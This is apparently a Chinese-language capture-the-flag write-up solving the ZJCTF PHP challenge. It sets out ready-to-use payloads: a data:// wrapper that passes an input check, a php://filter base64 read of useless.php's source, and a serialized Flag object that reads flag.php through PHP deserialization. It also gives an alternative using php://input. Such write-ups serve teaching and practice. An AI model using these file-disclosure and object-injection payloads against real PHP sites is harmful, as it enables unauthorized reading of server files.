

分析源码

get传参text，file，password

首先

 

判断text内容是不是welcome to the zjctf

可以利用伪协议

构造payload：

?text=data://text/plain,welcome to the zjctf

 

存在flag文本过滤

include包含文件useless.php

利用php://filter读取

构造payload：

 

file=php://filter/read=convert.base64-encode/resource=useless.php

 

获取到useless.php源码

 

 

 

 

分析源码

_tostring

 

 

useless.php的内容，其中定义了一个Flag类，包含$file属性和__toString方法。当对象被当作字符串处理时（比如echo一个对象），__toString方法会被调用。方法中会读取$this->file的内容，所以如果能够控制$file属性为flag.php，就能触发读取flag.php的操作。这里的关键是利用反序列化来构造一个Flag对象，设置其$file属性为flag.php，然后通过反序列化触发__toString方法。

 

 

 

 

 

提示读取file：flag.php

构造payload：

 

<?php 

class Flag{  //flag.php  

  public $file;  

  public function __tostring(){  

​    if(isset($this->file)){  

​      echo file_get_contents($this->file); 

​      echo " ";

​    return ("U R SO CLOSE !///COME ON PLZ");

​    }  

  }  

}  

$a=new Flag();

$a->file= "flag.php";

$b=serialize($a);

print("$b");

?> 

 

运行得到

 

 

Password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

 

 

 

最终payload：

?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

 

 

查看源码

得到flag

 

 

 

 

 

 

其中text内容

用php://input写入也行

GET：

php://input

POST:

welcome to the zjctf

 